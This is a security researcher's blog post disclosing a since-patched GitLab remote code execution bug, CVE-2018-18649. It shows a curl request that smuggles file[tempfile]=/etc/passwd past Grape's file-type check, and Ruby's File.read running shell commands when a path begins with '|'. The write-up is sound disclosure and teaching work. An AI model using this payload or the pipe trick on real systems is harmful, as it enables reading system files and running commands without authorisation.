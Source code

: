 ```yaml
---
layout: post
title:  "Second bite on GitLab, and some interesting Ruby functions/features"
date:   2018-12-12 15:34:11 +0800
categories: jekyll update
---
```


# Brief
It's been a while since I wrote something in this blog last time. I just posted
something about several bugs I found several months ago in GitHub Pages and
GitHub Enterprise. Go check them out if you are interested in some more examples
of incorrect path sanitizing and symbolic links in real world softwares!

But today I'm not going to talk about more of those. I'm going introduce some
recent findings about Ruby and how did I a find an RCE bug in GitLab.
([CVE-2018-18649](https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/))

# Ruby and GitLab
I wrote Ruby a lot when I was still in university. I used Ruby almost everywhere
I could use and even once submitted an assignment of my Operating System course
about threads and processes. However, after graduation I didn't have much time to
continue on the cool stuff with Ruby and focused on something else. :(

Recently, the experiences during the code auditing of GitLab, GitHub and several
other cool Ruby projects recalls me the best days of learning Ruby and feels me
like I'm designing the software and refining the code snippets with the developers.

As many people say, Ruby is an extremely flexible language and this flexibility
brings us elegant implementations, the freedom of creating DSL and etc. However
the flexibility also brings unnoticeable bugs. Here I'm going to show some code
snippets existed in GitLab.

## Duck Typing

> If it walks like a duck, swims like a duck, and quacks like a duck, then it probably is a duck.

GitLab uses [Grape](https://github.com/ruby-grape/grape) to create their APIs,
for example, the following API is used to upload attachments to the wiki of a
project.

``` ruby
        params do
          requires :file, type: File, desc: 'The attachment file to be uploaded'
          optional :branch, type: String, desc: 'The name of the branch'
        end
        post ":id/wikis/attachments", requirements: API::PROJECT_ENDPOINT_REQUIREMENTS do
          authorize! :create_wiki, user_project

          result = ::Wikis::CreateAttachmentService.new(user_project,
                                                        current_user,
                                                        commit_params(declared_params(include_missing: false))).execute
        ...
        end
```

Normally, Rack intercepts file uploading requests and sets `params[key][:tempfile]`
and `params[key][:filename]` to the temporary path of the uploaded file and the
original filename. So GitLab reads the content of the temp file and saves it
afterwards.

``` ruby
        def commit_params(attrs)
          {
            file_name: attrs[:file][:filename],
            file_content: File.read(attrs[:file][:tempfile]),
            branch_name: attrs[:branch]
          }
        end
```

At the same time, grape has a simple validation for `type: File`:

``` ruby
        def value_coerced?(value)
          # Rack::Request creates a Hash with filename,
          # content type and an IO object. Do a bit of basic
          # duck-typing.
          value.is_a?(::Hash) && value.key?(:tempfile)
        end
```

Well, it's not really duck-typing here. But the comments of the developer
reminds me this and it's surely thinking about duck-typing when it was
implementing this function.

Unfortunately, only duck quacking is not enough. A key named `:tempfile` exists
in the `params[:file]` hash doesn't really mean `params[:file]` is really a
uploaded file as expected.

Sending a simple POST request, we can easily smuggle our duck-like bird to pass this
duck typing check by setting `file[tempfile]` in the form data.

``` shell
curl -d "file[tempfile]=/etc/passwd&file[filename]=123" http://host:port
```

So, our bird can pass the inspection and tell us anything within a GitLab instance.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_1](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_1.png)

## Inheritance
Inheritance is not a Ruby only feature, inheritance exists in almost every OOP
language. It is a very helpful for designing softwares. However it also brings
some security risks.

In Ruby, there's a function `Kernel#open`

``` text
open(path [, mode [, perm]] [, opt]) → io or nil
...
If path starts with a pipe character ("|"), a subprocess is created, connected to the caller by a pair of pipes. The returned IO object may be used to write to the standard input and read from the standard output of this subprocess.
```
Which means, this function could be used to spawn sub-processes as long as the
first char of `path` is the pipe symbol.

``` text
irb(main):001:0> Kernel.open('|id').read
=> "uid=0(root) gid=0(root) groups=0(root)\n"
irb(main):002:0> open('|id').read
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

And, there are also some other functions having similar behavior, `IO::read`
for example:

``` text
read(name, [length [, offset]] [, opt] ) → string
Opens the file, optionally seeks to the given offset, then returns length bytes (defaulting to the rest of the file). read ensures the file is closed before returning.

If name starts with a pipe character ("|"), a subprocess is created in the same way as Kernel#open, and its output is returned.
```

Which means:

``` text
irb(main):003:0> path = '|id'
=> "|id"
irb(main):004:0> IO.read path
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

Well, so what's the business with inheritance here? A very very important point
of inheritance is that, the public methods of a parent class is inherited by a
child class, we can directly use those inherited methods in child classes as long
as we didn't override them. In Ruby, `File` is a child class of `IO`

``` text
irb(main):005:0> File.ancestors
=> [File, IO, File::Constants, Enumerable, Object, Kernel, BasicObject]
```

So,

``` text
irb(main):006:0> path = '|id'
=> "|id"
irb(main):007:0> File.read path
(irb):7: warning: IO.read called on File to invoke external command
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

easy huh? Till now, the arbitrary file read bug can be directly used to execute
system commands remotely.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_2](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_2.png)

# Some thoughts

I was quite shocked when I first discovered this `File.read` surprise. No matter
how to explain, I still can't accept the fact that calling `File.read` method on
a `|` started string spawns a sub-process instead of opening a file with that
name.

The fact is, not only method `read`:

``` text
pry(main)> (File.methods - File.methods(false)) & IO.methods(false)
=> [:console,
 :read,
 :sysopen,
 :for_fd,
 :popen,
 :foreach,
 :binread,
 :new,
 :binwrite,
 :write,
 :copy_stream,
 :select,
 :pipe,
 :open,
 :try_convert,
 :readlines]
```

All of these functions are inherited by `File` directly from `IO`, and some of
them have similar behavior with `File.read`.

According to the warning message printed in irb, I believe that Ruby-lang
developers already know this and are trying to rise notice of the users. It's a
good signal but I think it might be better to totally avoid this kind of
unexpected behavior from the language implementation layer, such as override
them in `File`.

# Timeline
[GitLab's bug bounty program](https://hackerone.com/gitlab) is very responsive
and regularly updated to keep reporters in the loop.

+ Oct 24th, Reported to GitLab
+ Oct 29th, Patch released https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/
+ Oct 29th, $10000 bounty was rewarded for this report
